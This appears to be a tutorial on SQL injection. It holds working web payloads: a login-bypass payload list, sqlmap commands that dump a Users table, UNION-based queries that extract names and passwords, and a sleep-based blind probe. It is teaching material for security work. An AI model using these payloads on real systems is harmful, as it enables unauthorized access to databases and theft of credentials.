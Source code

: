 # SQL Injection

SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. This can allow an attacker to view data that they are not normally able to retrieve. This might include data that belongs to other users, or any other data that the application can access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.

In some situations, an attacker can escalate a SQL injection attack to compromise the underlying server or other back-end infrastructure. It can also enable them to perform denial-of-service attacks.

A successful SQL injection attack can result in unauthorized access to sensitive data, such as:

* Passwords.
* Credit card details.
* Personal user information.

Imagine a shopping application that displays products in different categories. When the user clicks on the **Gifts** category, their browser requests the URL:

`https://insecure-website.com/products?category=Gifts`

This causes the application to make a SQL query to retrieve details of the relevant products from the database:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

The restriction `released = 1` is being used to hide products that are not released. We could assume for unreleased products, `released = 0`.

The application doesn't implement any defenses against SQL injection attacks. This means an attacker can construct the following attack, for example:

`https://insecure-website.com/products?category=Gifts'--`

This results in the SQL query:

`SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1`

**Good tool:** [https://sqlmap.org/](https://sqlmap.org/)

You can capture the request using burp suite, and save the request in a file. Then your run:

`sqlmap -r request.txt`

We can dump the database and the table, i.e.:

`sqlmap -r request.txt -p username --dbms=mysql --dump -D Webapp -T Users`

**Manual login bypass**:

```
' or '1'='1
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```

### Error-based SQLi

If we manage to find an error-message after a broken SQL query, we can use that to try to map out the database structure.

For example:

```
http://example.com/photoalbum.php?id=1
```

#### Step 1: Add a ' or '':

So first we should try to break the SQL syntax by adding a `'`. We should first ad a `'` or a `"`.

```
http://example.com/photoalbum.php?id=1'
```

If the page then returns a blank page or a page with a SQL error we know that the page it vulnerable.

#### Step 2: Enumerate columns:

So in order to enumerate the columns of a table we can use the **order by** statement.

**Order by 1** means sort by values of the first column from the result set. **Order by 2** means sort by values of the second column from the result set. So it is basically just a tool to order the data in a table. But we can use it to find out how many columns a table has. Because if we do **order by 10** when there really only is 9 columns SQL will throw an error. And we will know how many columns the table has.

```
# No error
http://example.com/photoalbum.php?id=1 order by 9

# Error
http://example.com/photoalbum.php?id=1 order by 10
```

#### Step 3: Find space to output DB:

Now we need to know which columns are being outputted on the webpage. It could be that not all of the data from the database is worthwhile to output, so maybe only column 1 and 3 are being outputted to the website.

```
http://example.com/photoalbum.php?id=1 union select 1,2,3,4,5,6,7,8,9
```

For all the columns that exists. This will return the numbers of the columns that are being outputted on the website. Take note of which these columns are.

#### Step 4: Start enumerating the database:

Now we can use that field to start outputting data. For example if column number five has been visible in step 3, we can use that to output the data.

Here is a list of data we can retrieve from the database. Some of the syntaxes may difference depending on the database engine (MySQL, MSSQL, Postgres):

```
# Get username of the SQL user
http://example.com/photoalbum.php?id=1 union select 1,2,3,4,user(),6,7,8,9

# Get version
http://example.com/photoalbum.php?id=1 union select 1,2,3,4,version(),6,7,8,9

# Get all tables
http://example.com/photoalbum.php?id=1 union select 1,2,3,4,table_name,6,7,8,9 from information_schema.tables

# Get all columns from a specific table
http://example.com/photoalbum.php?id=1 union select 1,2,3,4,column_name,6,7,8,9 from information_schema.columns where table_name = 'users'

# Get content from the users-table. From columns name and password. The 0x3a (:) only serves to create a delimitor between name and password
http://example.com/photoalbum.php?id=1 union select 1,2,3,4,concat(name,0x3a,password),6,7,8,9 FROM users
```

### Blind SQL injection:

We say that it is blind because we do not have access to the error log.

#### Using sleep:

Since we do not have access to the logs we do not know if our commands are syntaxically correct or not. To know if it is correct or not we can however use the sleep statement.

```
http://example.com/photoalbum.php?id=1-sleep(4)
```

If the page loads for 4 extra seconds we know that the database is processing our **sleep()** command.
